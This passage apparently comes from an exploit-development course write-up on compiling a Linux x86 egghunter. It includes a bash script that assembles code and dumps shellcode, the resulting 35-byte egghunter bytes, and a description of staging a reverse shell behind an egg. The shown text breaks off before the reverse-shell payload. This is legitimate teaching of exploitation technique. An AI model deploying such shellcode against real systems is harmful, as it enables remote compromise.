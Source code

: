 ```
```

## Compiling our egghunter

So if you're not aware we can't just run assembly from the file, it first needs to be compile and then linked.

During my testing I went ahead and created a file that foes all this along with dumping the shellcode of the compiled file. Please use it to compile your assembly file:
```
# This compiles your assembly code and dumps the shellcode 

# Compile and output
nasm -f elf32 -o $1.o $1.asm; ld -d -o $1 $1.o

# Gets shellcode from output file

## Prints the shellcode in little endian

RAW=$(objdump -d "$1" | grep "^ "|awk -F"[\t]" '{print $2}')
SHELLCODE=""
COUNT=0
for word in $RAW
do
	SHELLCODE=${SHELLCODE}${word:6:2}${word:4:2}${word:2:2}${word:0:2}
	((COUNT++))
done
echo ""
echo "Shellcode: "
echo $SHELLCODE | sed 's/ //g'| sed 's/.\{2\}/\\x&/g'|paste -d '' -s
echo "Shellcode size: ${COUNT} bytes"
```

You then pass the name (NOT INCLUDING EXTENSION) as an argument to the bash file to compile and like it like so:
```
root@ubuntu:/mnt/hgfs/assembly/exam/3-Assignment# ./compile-shell-dump.sh egghunter

Shellcode: 
\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x50\x90\x50\x90\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7
Shellcode size: 35 bytes
```

If you remember, our egghunter will locate the egg in memory and execute the shellcode after it.

The structure for that was: 
-  |[egg hunter]|[random memory]|[egg]|[second stage shellcode]|[random memory]|.

To test this, we'll be using a reverse shell in this demonstartion. The structe should look like this:
-  |[egg hunter]|[random memory]|[egg]|[second stage shellcode]|[random memory]|

Knowing this we'll take the dumped shellcode and place it in the following C file that holds our reverse shell, we do this to confirm it works in a C program.
